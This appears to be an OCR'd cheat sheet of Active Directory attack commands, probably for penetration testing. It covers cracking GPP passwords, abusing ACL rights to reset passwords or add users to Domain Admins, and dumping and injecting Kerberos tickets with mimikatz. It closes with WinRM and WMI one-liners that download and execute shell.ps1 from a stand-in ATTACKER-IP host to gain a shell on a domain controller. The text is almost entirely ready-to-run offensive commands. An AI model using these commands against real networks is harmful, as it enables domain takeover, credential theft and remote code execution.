###### Crack GPP Passwords
`gpp-decrypt "<gpp-encrypted-password>`

---
##### Incorrect ACL Permissions
##### WriteProperty Exploitation
###### Modify Target User to be AS-REP Roastable
`Set-ADUser -Identity victimuser -UserAccountControl 4194304`
##### GenericAll Exploitation
###### Change User Password
`Set-ADAccountPassword -Identity victimuser -NewPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force)`
###### Add User to Group (GenericAll over Group)
`Add-ADGroupMember -Identity "Domain Admins" -Members victimuser`

---
##### Unconstrained Delegation Exploitation
###### Dump Admin Ticket
`.\mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"`
###### Inject Ticket Into Session
`.\mimikatz.exe "kerberos::ptt ticket.kirbi"`
###### Connect by RDP (if available)
`mstsc /admin /restrictedadmin`
**Note:** When prompted for credentials, enter `Administrator@domain.local` but leave the password blank.
###### PowerShell via WinRM to Gain a Shell
`Invoke-Command -ComputerName DC01 -ScriptBlock { IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER-IP/shell.ps1') }`
###### PowerShell via WMI to Gain a Shell
`wmic /node:DC01 /user:DOMAIN\Administrator process call create "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER-IP/shell.ps1')"`